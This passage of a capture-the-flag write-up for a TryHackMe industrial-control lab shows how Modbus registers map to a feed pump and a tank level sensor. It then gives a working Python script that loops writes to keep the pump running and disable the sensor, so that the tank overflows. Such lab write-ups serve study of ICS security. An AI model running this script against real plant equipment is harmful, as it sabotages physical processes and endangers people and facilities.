 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 set_register.py $RHOSTS 1 1
```

```
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[...]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Attacking-ICS-Plant-2/images/a2.png)

Looks like the first register can turn on the `Feed Pump`! 

**When the oil reaches to the `Tank Level Sensor`, the `Feep Pump` will be turn off, and the `Outlet Valve` will be turn on.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Attacking-ICS-Plant-2/images/a3.png)

```
[...]
[1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[1, 1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
[1, 1, 1, 1, 0, 0, 0, 1, 0, 0, 0, 0, 0, 0, 0, 0]
[...]
```

**Looks like the second register is the `Tank Level Sensor`! Let's turn that off!**

**To do so, I'll:**

- Create a new python script to turn on/off registries:

**attack_oil_overflow.py:**
```py
#!/usr/bin/env python3

import sys
import time
from pymodbus.client.sync import ModbusTcpClient as ModbusClient
from pymodbus.exceptions import ConnectionException

ip = sys.argv[1]
client = ModbusClient(ip, port=502)
client.connect()

while True:
  client.write_register(1, 1)  # Open Feed Pump
  client.write_register(2, 0)  # Turn off Tank Level Sensor
```

- Run the script:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Attacking-ICS-Plant-#2]
└─# python3 attack_oil_overflow.py $RHOSTS
```
